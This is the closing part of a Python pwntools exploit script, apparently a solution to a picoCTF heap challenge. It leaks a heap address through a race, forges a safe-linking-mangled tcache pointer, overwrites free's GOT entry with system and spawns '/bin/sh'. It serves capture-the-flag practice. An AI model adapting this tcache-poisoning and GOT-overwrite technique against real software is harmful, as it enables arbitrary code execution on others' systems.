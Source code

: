 ```
            continue
        '''
        p = gdb.debug('./vuln', script)
    else:
        p = remote('saturn.picoctf.net', 61071)

    FREE_GOT = 0x404018
    SYSTEM_PLT = 0x401090
    CHUNK_SIZE = 24-1
    RET = 0x401e48

    # malloc a chunk of size 16
    add_horse(0, CHUNK_SIZE, b'A'*CHUNK_SIZE)

    # free the chunk to get a heap pointer
    remove_horse(0)

    # malloc again, except set the name to be 0xff so that the pointer doesn't get overwritten
    add_horse(0, CHUNK_SIZE, b'\xff')

    # add some more horses so we can race
    for i in range(1, 5):
        add_horse(i, CHUNK_SIZE, b'A'*CHUNK_SIZE)
    race()
    
    # leak the heap bytes
    leak = p.recvuntil(b'|')[:-1].strip()
    # pad the address with zeros until it's 64 bits
    leak = b'\x00'*2 + leak
    leak = leak + b'\x00'*(8-len(leak))
    heap_addr = u64(leak)
    heap_addr >>= 4
    print(hex(heap_addr))

    # add chunks to tcache
    for i in range(4, -1, -1):
        remove_horse(i)
    
    # overwrite free's GOT entry with system's PLT entry
    # then, the program will call free on a horse's name, which we can set as /bin/sh
    chunk_addr = heap_addr + 1456
    # we subtract 8 from FREE_GOT because the address must be aligned
    mangled = mangle(chunk_addr, FREE_GOT-8)
    print(hex(mangled))

    # modify the next pointer of the most recently freed chunk
    cheat(0, p64(mangled) + b'A'*8, 1337)
    add_horse(0, CHUNK_SIZE, b'/bin/sh\x00' + b'A'*16)

    # here, malloc will return free@got-8
    add_horse(1, CHUNK_SIZE, b'A'*8 + p64(SYSTEM_PLT) + p64(RET))

    # this will call free("/bin/sh") == system("/bin/sh")
    remove_horse(0)

    p.interactive()

if __name__ == '__main__':
    main()
```

